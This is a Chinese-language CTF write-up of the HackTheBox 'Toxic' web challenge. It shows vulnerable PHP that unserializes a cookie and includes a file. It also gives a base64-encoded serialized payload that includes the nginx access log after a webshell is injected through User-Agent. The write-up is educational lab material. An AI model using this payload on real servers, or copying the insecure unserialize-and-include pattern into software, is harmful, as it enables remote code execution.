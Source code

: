 ```yaml
---
title: HackTheBox Toxic WriteUP
date: 2023-08-23 09:39:14
tags:
- HackTheBox
- Web
---
```


## 题目

> Humanity has exploited our allies, the dart frogs, for far too long, take back the freedom of our lovely poisonous friends. Malicious input is out of the question when dart frogs meet industrialisation. 🐸

![Toxic](image.png)

![Web](image-1.png)

## 思路

源代码很简单，只有两个PHP文件

``` php
//index.php

<?php
spl_autoload_register(function ($name){
    if (preg_match('/Model$/', $name))
    {
        $name = "models/${name}";
    }
    include_once "${name}.php";
});

if (empty($_COOKIE['PHPSESSID']))
{
    $page = new PageModel;
    $page->file = '/www/index.html';

    setcookie(
        'PHPSESSID', 
        base64_encode(serialize($page)), 
        time()+60*60*24, 
        '/'
    );
} 

$cookie = base64_decode($_COOKIE['PHPSESSID']);
unserialize($cookie);
```

``` php
//PageModel.php
<?php
class PageModel
{
    public $file;

    public function __destruct() 
    {
        include($this->file);
    }
}
```

很显然，是一个PHP反序列化+文件包含的漏洞利用。

这里就需要找到一个可包含的日志文件，我们可以在`nginx.conf`中找到AccessLog文件的位置。

![AccessLog](image-2.png)

## 解题

利用`User-Agent`写入WebShell：

![UA](image-3.png)

构造包含AccessLog的序列化数据：

``` php
O:9:"PageModel":1:{s:4:"file";s:25:"/var/log/nginx/access.log";}
//base64encode
Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoyNToiL3Zhci9sb2cvbmdpbngvYWNjZXNzLmxvZyI7fQ==
```

利用WebShell获得文件名和Flag

![FileName](image-4.png)

![Flag](image-5.png)

## 后记

非常简单的一个Challenge，很适合作为学习PHP反序列化的入门练习。

## 参考资料

> - [php反序列化完整总结](https://xz.aliyun.com/t/12507)